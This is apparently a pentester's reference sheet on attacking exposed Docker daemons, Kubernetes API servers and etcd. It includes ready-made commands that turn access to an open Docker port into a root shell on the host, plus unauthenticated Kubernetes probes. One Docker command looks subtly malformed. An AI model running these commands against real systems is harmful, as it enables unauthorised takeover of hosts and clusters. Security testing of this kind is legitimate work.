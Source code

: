 [*] 2375/TCP - Docker

This is the default insecure Docker port. It's an HTTP REST API, and usually access results in root on the host.

- Testing with Docker CLI

The easiest way to attack this is just use the docker CLI.

* `docker run -H tcp://[IP]:2375 info` - This will confirm access and return some information about the host
* `docker run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host` - From [this](https://zwischenzugs.com/2015/06/24/the-most-pointless-docker-command-ever/) post. This will drop you into a root shell on the host.


- **2376/TCP - Docker**

This is the default port for the Docker daemon where it requires credentials (client certificate), so you're unlikely to get far without that. If you do have the certificate and key for access :-

* `docker --tlsverify --tlscacert=ca.pem --tlscert=cert.pem --tlskey=key.pem -H=[IP]:2376 info` - format for the info command to confirm access.
* `docker --tlsverify --tlscacert=ca.pem --tlscert=cert.pem --tlskey=key.pem -H=[IP]:2376 run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host` - root on the host


- **443/TCP, 6443/TCP, 8443/TCP - Kubernetes API server**

Typical ports for the Kubernetes API server.

- Testing for access

Access to the `/version` endpoint will often work without valid credentials (using curl), as this is made available to unauthenticated users.

* `kubectl --insecure-skip-tls-verify --username=system:unauthenticated -shttps://[IP]:[PORT] version` - Test for access with kubectl
* `curl -k https://[IP]:[PORT]/version` - Test for access with curl

- Checking permissions

It's possible that unauthenticated users have been provided more access. You can check what permissions you have with

* `kubectl --insecure-skip-tls-verify --username=system:unauthenticated -shttps://[IP]:[PORT] auth can-i --list`

- Getting privileged access to cluster nodes

In the event that you have create pods access without authentication, see abowe k8s-manifests for useful approaches.


- **2379/TCP - etcd**

The authentication model used by etcd, when supporting a Kubernetes cluster, is relatively straightforward. It uses client certificate authentication where **any** certificate issued by it's trusted CA will provide full access to all data. In terms of attacks, there are two options unauthenticated access and authenticated acces.
